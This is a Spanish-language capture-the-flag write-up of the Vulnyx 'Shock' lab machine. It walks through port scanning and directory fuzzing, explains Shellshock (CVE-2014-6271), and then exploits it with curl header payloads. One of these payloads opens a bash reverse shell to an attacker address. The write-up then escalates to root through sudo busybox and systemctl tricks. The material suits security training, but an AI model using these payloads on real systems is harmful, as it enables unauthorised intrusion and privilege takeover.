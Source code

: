 ```yaml
---
layout      : post
title       : "Shock - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
optimized_image : /assets/images/VULNYX/Shock-Vulnyx/Shock.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : 👻En esta ocasión romperemos una máquina Linux de nivel easy de la nueva plataforma Vulnyx. Explotaremos la vulnerabilidad Shellshock y escalaremos usando dos binarios👻.
---
```


👻Estamos ante una máquina Linux Easy de la nueva plataforma VulNyx en la que tenemos máquinas basadas en UNIX con diferentes niveles de dificultad para aprender y practicar las habilidades de Ciberseguridad👻.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como en todo CTF comenzamos enumerando puertos en la máquina víctima, esto lo hacemos usando nmap, aunque esta vez voy a usar la herramienta rustscan.

Lanzo la herramienta con el rango de puertos del 1 al 65535 para que escanee todos los puertos existentes.

![](/assets/images/VULNYX/Shock-Vulnyx/rustcan.webp)

Como podemos ver tenemos dos puertos abiertos, el puerto 22 y el puerto 80.

Si lanzamos un escaneo un poco más avanzado para descubrir qué servicios corren en cada puerto podremos ver lo siguiente.

```r
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSRcer8jyQvBQLNodMY/8sZbjcip1NPmoJkdQZV/Ngm/cXzaUR06OCNKyJM8Blve6Pi86npcZPIs5iuowUH2eTDGRPoH9EbJCbeDRrGyy+CTrdLci3VEmFV8K0rhoYA3nzCPR59CKVdW58OIEMZoJiTzX/I/dH9Mp1XLSLghkirI2YiGJBUhxLyc+03LOTAu/kHC7F1d10/XQjmuspHkfX2PvJsIhzoaKXyo2+CFZNuWkY0/gs+FN9KPdtkMnyv9/+fGn06cYBu/dw7OE9OOcdl2jZUXVT/bEfjK1nNmjp3dAKqOO3iVpciGjCFBgQWvkjakOEpvfd2wAYQHOe9pL7
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP/FWnKmPLA1LACd7NDtXVGKDHXYkZmtzC8zhOGcpSD6nnbvhdo4CU4ZoLMAPQfc2Ww6qNCKY9LkmeegGyZBeoM=
|   256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2ClztzZ1xvNlcuG7c24bOcE/UKY3EBFH8Edpcy03vw
80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión |
| ------ | -------- | ------- |
| 22     | SSH      | OpenSSH 7.9p1 Debian |
| 80     | HTTP     | Apache httpd 2.4.38 |

Tras ver que tenemos solo estos dos puertos abiertos procedo a enumerar un poco el servidor web Apache.

Accedo con el navegador para ver que encontramos de primeras y echar una pequeña ojeada inicial.

![](/assets/images/VULNYX/Shock-Vulnyx/web1.webp)

Aparente no hay nada de interés, en el código fuente tampoco, por lo que me pongo a fuzzear para buscar rutas o archivos en el servidor.

Para ello usaré la herramienta gobuster, aunque existen muchas más con las que se puede realizar el fuzzing.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing1.webp)

Podemos ver que existe el directorio cgi-bin, y eso me hace pensar que podríamos estar ante la vulnerabilidad ShellShock, y viendo el nombre de la máquina... es lo más probable.

Sigo fuzzeando desde la ruta /cgi-bin para descubrir más directorios o archivos dentro de la misma.

Los archivos susceptibles a un ataque Shellshock son los que comúnmente pertenezcan a alguna de las siguientes extensiones, tales como cgi y sh.

Tras fuzzear encuentro un archivo llamado `shell.sh` lo que ya me va haciendo confirmar que es muy probable que estemos ante ShellShock.

![](/assets/images/VULNYX/Shock-Vulnyx/fuzzing2.webp)

Pero antes nada primero vamos a ver que es ShellShock y en que consiste.

## ¿Qué es la vulnerabilidad ShellShock y en qué consiste?

ShellShock es una vulnerabilidad asociada al CVE-2014-6271 que afecta a la shell de Linux "bash" hasta la versión 4.3.
A través de esta vulnerabilidad podemos ejecutar comandos de forma remota.

Se origina porque bash permite declarar funciones, pero no se validan de forma correcta cuando se almacenan en una variable.

# Explotación [#](explotación) {#explotación}

Ahora que ya sabemos más o menos que es esta vulnerabilidad y como se origina, toca explotarla.

Primero vamos a verificar que de verdad estamos ante ShellShock y es vulnerable al mismo.

```bash
curl -H ‘User-Agent: () { :;}; echo; echo ¿Vulnerable a ShellShock?’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

![](/assets/images/VULNYX/Shock-Vulnyx/shellshock1.webp)

Y como podemos ver ejecuta correctamente el comando `echo ¿Vulnerable a ShellShock?`.

Por lo que el siguiente paso será introducir una reverse shell en bash para intentar ganar acceso a la máquina víctima.

Ponemos netcat en escucha en el puerto 443

`nc -lnvp 443`

Y le metemos una reverse shell bash para ganar acceso.

```bash
curl -H ‘User-Agent: () { :;}; echo; bash -i >& /dev/tcp/192.168.0.30/443 0>&1’ ‘http://192.168.0.19/cgi-bin/shell.sh’
```

Y obtenemos acceso a la máquina como el usuario www-data.

![](/assets/images/VULNYX/Shock-Vulnyx/reverse-shell.webp)

# Escalada de Privilegios [#](privesc) {#privesc}

Tras ganar acceso comienzo a ojear un poco y veo que tenemos el directorio del usuario will, pero no tenemos permisos, por lo que lo primero será intentar migrarnos a este usuario.

# Movimiento Lateral - Usuario will

Ejecuto el comando `sudo -l` para enumerar permisos de sudo y veo que puedo ejecutar el binario busybox como el usuario will sin contraseña.

![](/assets/images/VULNYX/Shock-Vulnyx/busybox.webp)

Y siempre que hablamos de binarios... hablamos de GTFOBINS  

https://gtfobins.github.io/

![](/assets/images/VULNYX/Shock-Vulnyx/busybox-gtfo.webp)

Ejecutamos el siguiente comando:

`sudo -u will /usr/bin/busybox sh`

![](/assets/images/VULNYX/Shock-Vulnyx/will.webp)

Y ya nos hemos migrado al usuario Will y podemos leer la flag user.

El siguiente paso obviamente es escalar privilegios para convertirnos en root.

# Escalada de Privilegios

Para escalar privilegios de nuevo vuelvo a ejecutar el comando `sudo -l` para enumerar permisos sudo y veo que puedo ejecutar el binario systemctl como root sin contraseña.

Por lo que este paso es igual que el anterior, nos dirigimos a gtfobins.

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl-gtfobins.webp)

![](/assets/images/VULNYX/Shock-Vulnyx/systemctl.webp)

Ejecutamos lo siguiente:

```bash
sudo /usr/bin/systemctl
!sh
```

![](/assets/images/VULNYX/Shock-Vulnyx/root.webp)

Y ya somos root.








